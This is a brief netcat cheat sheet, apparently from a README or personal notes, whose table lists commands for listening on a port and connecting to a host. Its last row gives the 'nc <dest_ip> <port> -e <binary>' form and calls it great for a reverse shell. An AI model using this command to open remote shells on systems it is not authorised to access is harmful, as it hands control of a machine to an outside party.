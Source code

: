# Netcat
Comm | Desc
--- | ---
`nc -l -p <port>` | listen on port
`nc <dest_ip> <port>` | Connect to dest_ip on port
`nc <dest_ip> <port> -e <binary>` | Connect to dest_ip on port executing binary (great for rev shell)